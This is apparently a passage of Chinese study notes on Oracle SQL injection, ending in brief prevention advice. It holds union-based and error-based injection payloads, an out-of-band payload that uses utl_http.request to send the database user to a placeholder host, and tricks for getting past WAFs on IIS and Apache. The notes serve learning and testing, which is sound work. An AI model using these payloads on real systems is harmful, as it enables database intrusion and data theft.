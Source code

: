 - 获取数据库版本：`select banner from sys.v_$version`
- 获取当前用户名：`select user from dual`
- 获取数据库的实例名（SYS 用户）：`select instance_name from v_$instance`
- 获取表名：`select table_name from user_tables where rownum=1`

> user_tables：提供当前用户拥有的所有表的信息；user_tab_columns：提供当前用户拥有的表和视图中的所有列的信息；
>
> all_tables：提供所有用户定义的表的信息；all_tab_columns：提供所有用户定义的表和视图中所有列的相关信息

#### 内联注入

- 基本规则
  1. 使用查询语句获取数据时，需要跟上表名，没有表的情况下可以使用 dual。dual 是 Oracle 的虚拟表，用来构成 select 的语法规则，Oracle 保证 dual 里面永远只有一条记录。
  2. Oracle 的数据类型是强匹配，所以进行类似 UNION 查询时候必须让对应位置上的数据类型和表中的列的数据一致，也可以用 null 代替某些无法快速猜测出数据类型的位置
- 利用流程
  1. 判断注入点（同 MySQL）
  2. 判断列数（同 MySQL）
  3. 通过 union 进行查询：`union select null, null, null from dual`
  4. 判断每个字段的数据类型：`union select 1, 'str', null from dual`
  5. 获取数据库表名：`union select null, table_name, null from user_tables where rownum=1`

#### 报错注入

- 利用条件
  1. and 关键字不可缺
  2. 需使用类似 1=(报错语句)，1>(报错语句) 的比较运算符
- 利用代码
  - `select ctxsys.drithsx.sn(1, (select user from dual)) from dual`
  - `select ctxsys.ctx_report.token_type((select user from dual), '1') from dual`

#### OBB 外带数据

- 利用条件：支持 utl_http.request
- 利用代理：`and utl_http.request('http://ip:port/'%7c%7c(select user from dual))=1--`

## WAF 绕过

双写、大小写、编码、00截断、内联注释、同义替换、换行、HTTP 参数污染、变更请求方式、web 中间件特性、数据库特性

> - IIS
>   - % 特性：输入 s%elect，WAF 解析的结果可能就是 s%elect，但在 IIS + ASP 下解析出来的是 select
>   - %u 特性：对于 select 中的部分进行 unicode 编码，得到 s%u006c%u0006ect。当 IIS 接收到后会被转换为 select，但WAF 接收到的内容可能还是 s%u006c%u0006ect。
> - Apache
>   - 畸形 method：某些版本在解析不正常请求方式时，会按 Get 方式处理。
>   - 畸形 boundary：PHP 对于 boundary 的识别只取逗号前的内容，WAF 解析的时候，有可能获取整个字符串。

## SQL 注入的防范

* 编码阶段：安全编码规范（输入验证、遵循安全 SQL 编码规范）
* 测试阶段：代码审计、SQL 注入测试等，可手工也可以结合自动工具
* 部署阶段：数据库安全加固、WEB 应用防火墙、IDS/IPS
